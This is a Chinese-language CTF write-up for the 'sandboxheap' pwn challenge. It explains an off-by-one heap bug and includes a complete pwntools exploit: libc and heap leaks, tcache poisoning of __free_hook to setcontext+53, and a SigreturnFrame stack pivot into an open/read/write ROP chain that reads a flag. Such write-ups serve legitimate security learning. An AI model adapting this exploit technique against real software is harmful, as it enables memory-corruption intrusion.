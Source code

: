 # sandboxheap
### 程序分析
此题保护全开，还开了沙箱保护，只能通过ROW getflag  
有show函数可以得到堆中内容，有问题的地方是edit函数，存在off by one漏洞。  
![](https://s-bj-4514-pwnpic.oss.dogecdn.com/sandboxheap/pics/add.png)  
![](https://s-bj-4514-pwnpic.oss.dogecdn.com/sandboxheap/pics/edit.png)  
![](https://s-bj-4514-pwnpic.oss.dogecdn.com/sandboxheap/pics/ineidt.png)  
由于多读了一字节，可以覆盖下一个chunk的preinuse位。  
需要注意的是edit中会对输入做一定处理，根据每个字符是否是1进行判断，因此我的输入为01组成的字符串，该字符串会按每8个字符进行分割，逆序后组成一个字节。  
### 思路分析
决定使用unsortedbin unlink泄露libc地址、堆地址，得到free_hook地址，在free_hook处写下setcontext+53地址,，这样能在调用free时更改寄存器（rbp，rip）的值，用栈迁移劫持程序运行堆上布置好的orw rop链。  
这是我第一次使用setcontext相关内容，我们可以用gdb查看下里面的东西。  
![](https://s-bj-4514-pwnpic.oss.dogecdn.com/sandboxheap/pics/setcontext.png)  
发现在setcontext+53的地方有大量寄存器赋值的操作，使用pwntools的SigreturnFrame自动生成frame。  

接下来的大致思路都写在注释里了。  
```
for i in range(7):
    add(i, 0x88)  
add(7, 0x88)
add(8, 0x88)
add(9, 0x88)
add(14,0x190)#打算放orw rop，使程序栈迁移到它
add(15,0x190)#打算放SigreturnFrame，改变freehook为setcontext+53后free它就能更改寄存器的值
add(10, 0x10)
#填充tcache 0x90
for i in range(8):
    free(i)
overedit(8, b'1' * 0x80 + p64(0x120) , 0)#改变第9块的presize和preinuse，使其释放时把第8第7块一块合并了，实现堆块重叠，这样只要第8块中出现libc地址就能用show函数得到
```
![](https://s-bj-4514-pwnpic.oss.dogecdn.com/sandboxheap/pics/pic1.png)  
```
free(9)
add(11, 0x98)
add(12, 0x78)

#泄露libc
show(12)
p.recvuntil(b'Content: ')
libc_addr=u64(p.recvuntil(b'\x7f')[-6:].ljust(8,b'\x00'))
#泄露堆地址
add(0, 0x88)
edit(8,b'1'*8+p64(0x91))
free(12)
edit(8,b'1'*16)
show(8)
p.recvuntil(b'Content: ')
p.recvuntil(b'1'*16)
heap_addr=u64(p.recv(6).ljust(8,b'\x00'))
print("heap_addr: ",hex(heap_addr))
edit(8,p64(0)+p64(91)+p64(free_hook))#改变tcache中第一个free chunk的fd指针为free_hook
```
![](https://s-bj-4514-pwnpic.oss.dogecdn.com/sandboxheap/pics/pic2.png)  
接下来只需要申请两次大小为0x90的chunk就能在free_hook上开辟chunk。  
```
add(1, 0x88)
add(2, 0x88)#index为2的堆开在了free_hook上，改变freehook为setcontext+53
edit(2,p64(setcontext+53))

frame = SigreturnFrame()
frame.rsp=heap_addr+0x2d0#对这个值的要求不高，但不写的话会变成0就出错了
frame.rbp=heap_addr+0x2d0
frame.rip = leave_ret
# edit()
byte_frame=bytes(frame)
# gdb.attach(p,'b free')
edit(1,b'./flag\x00')
#下面两种方法得到orwrop链都可以
#heap_addr+0x1c0为flag
#heap_addr+0x1f0为随便选的输出flag的地方
orw_payload=p64(0xdeadbeef)#rbp
if 1==0:
    orw_payload+=flat([pop_rdi,heap_addr+0x1c0,pop_rsi,0,open_addr])
    orw_payload+=flat([pop_rdi,3,pop_rsi,heap_addr+0x1f0,pop_rdx,0x30,read_addr])
    orw_payload+=flat([pop_rdi,1,pop_rsi,heap_addr+0x1f0,pop_rdx,0x30,write_addr])
else:
    orw_payload+=flat([pop_rdi,heap_addr+0x1c0,pop_rsi,0,pop_rax,2,syscall])
    orw_payload+=flat([pop_rdi,3,pop_rsi,heap_addr+0x1f0,pop_rdx,0x30,pop_rax,0,syscall])
    orw_payload+=flat([pop_rdi,1,pop_rsi,heap_addr+0x1f0,pop_rdx,0x20,pop_rax,1,syscall])
edit(14,orw_payload)
edit(15,byte_frame)
free(15)#自动完成setcontext，然后执行orwrop链
```
![](https://s-bj-4514-pwnpic.oss.dogecdn.com/sandboxheap/pics/success.jpg)  

完整exp如下：
```
from pwn import * 
from LibcSearcher import * 
# context.log_level = 'debug'
context(os = "linux", arch = "amd64")

p=process('./sandboxheap')
libc=ELF('./libc-2.27.so')
def add(index,size):
    p.sendlineafter(b'Your choice: ',b'1')
    p.sendlineafter(b'Index: ',str(index).encode())
    p.sendlineafter(b'Size: ',str(size).encode())
def getcontent(content):
    realcontent=""
    for i in content:
        realcontent+=bin(i)[2:].rjust(8,'0')[::-1]
    return realcontent
def edit(index,content):
    p.sendlineafter(b'Your choice: ',b'2')
    p.sendlineafter(b'Index: ',str(index).encode())
    p.sendafter(b'Content: ',getcontent(content).encode())
def overedit(index,content,type):
    p.sendlineafter(b'Your choice: ',b'2')
    p.sendlineafter(b'Index: ',str(index).encode())
    p.sendafter(b'Content: ',(getcontent(content)+str(type)).encode())
def show(index):
    p.sendlineafter(b'Your choice: ',b'3')
    p.sendlineafter(b'Index: ',str(index).encode())
def free(index):
    p.sendlineafter(b'Your choice: ',b'4')
    p.sendlineafter(b'Index: ',str(index).encode())
for i in range(7):
    add(i, 0x88)  
add(7, 0x88)
add(8, 0x88)
add(9, 0x88)
add(14,0x190)#打算放orw rop，使程序栈迁移到它
add(15,0x190)#打算放SigreturnFrame，改变freehook为setcontext+53后free它就能更改寄存器的值
add(10, 0x10)
#填充tcache 0x90
for i in range(8):
    free(i)
overedit(8, b'1' * 0x80 + p64(0x120) , 0)#改变第9块的presize和preinuse，使其释放时把第8第7块一块合并了，实现堆块重叠，这样只要第8块中出现libc地址就能用show函数得到
# gdb.attach(p)
free(9)
add(11, 0x98)
add(12, 0x78)

#泄露libc
show(12)
p.recvuntil(b'Content: ')
libc_addr=u64(p.recvuntil(b'\x7f')[-6:].ljust(8,b'\x00'))
print("libc_addr: ",hex(libc_addr))
malloc_hook=libc_addr-0x70
print("malloc_hook: ",hex(malloc_hook))
libc_base=malloc_hook-libc.sym['__malloc_hook']
print("libc_base: ",hex(libc_base))
setcontext=malloc_hook-0x399be0
print("setcontext: ",hex(setcontext))
free_hook=libc_base+libc.sym['__free_hook']
print("free_hook: ",hex(free_hook))

leave_ret=libc_base+0x00000000000547e3
pop_rax=libc_base+0x000000000001b500
pop_rdi=libc_base+0x000000000002164f
pop_rbp=libc_base+0x00000000000213e3
pop_rsi=libc_base+0x0000000000023a6a
pop_rdx=libc_base+0x0000000000001b96
syscall=libc_base + 0x00000000000d2625 #hex(libc.search(asm('syscall \n ret')).__next__())，不知道为什么用ROPgadget没法找到，只能用python
read_addr=libc_base+libc.symbols['read']
open_addr=libc_base+libc.symbols['open']
write_addr=libc_base+libc.symbols['write']
#泄露堆地址
add(0, 0x88)
edit(8,b'1'*8+p64(0x91))
free(12)
edit(8,b'1'*16)
show(8)
p.recvuntil(b'Content: ')
p.recvuntil(b'1'*16)
heap_addr=u64(p.recv(6).ljust(8,b'\x00'))
print("heap_addr: ",hex(heap_addr))
edit(8,p64(0)+p64(91)+p64(free_hook))#改变tcache中第一个free chunk的fd指针为free_hook
# pause()
add(1, 0x88)
add(2, 0x88)#index为2的堆开在了free_hook上，改变freehook为setcontext+53
edit(2,p64(setcontext+53))

frame = SigreturnFrame()
frame.rsp=heap_addr+0x2d0#对这个值的要求不高，但不写的话会变成0就出错了
frame.rbp=heap_addr+0x2d0
frame.rip = leave_ret
# edit()
byte_frame=bytes(frame)
# gdb.attach(p,'b free')
edit(1,b'./flag\x00')
#下面两种方法得到orwrop链都可以
#heap_addr+0x1c0为flag
#heap_addr+0x1f0为随便选的输出flag的地方
orw_payload=p64(0xdeadbeef)#rbp
if 1==0:
    orw_payload+=flat([pop_rdi,heap_addr+0x1c0,pop_rsi,0,open_addr])
    orw_payload+=flat([pop_rdi,3,pop_rsi,heap_addr+0x1f0,pop_rdx,0x30,read_addr])
    orw_payload+=flat([pop_rdi,1,pop_rsi,heap_addr+0x1f0,pop_rdx,0x30,write_addr])
else:
    orw_payload+=flat([pop_rdi,heap_addr+0x1c0,pop_rsi,0,pop_rax,2,syscall])
    orw_payload+=flat([pop_rdi,3,pop_rsi,heap_addr+0x1f0,pop_rdx,0x30,pop_rax,0,syscall])
    orw_payload+=flat([pop_rdi,1,pop_rsi,heap_addr+0x1f0,pop_rdx,0x20,pop_rax,1,syscall])
edit(14,orw_payload)
edit(15,byte_frame)
free(15)#自动完成setcontext，然后执行orwrop链
p.interactive()
```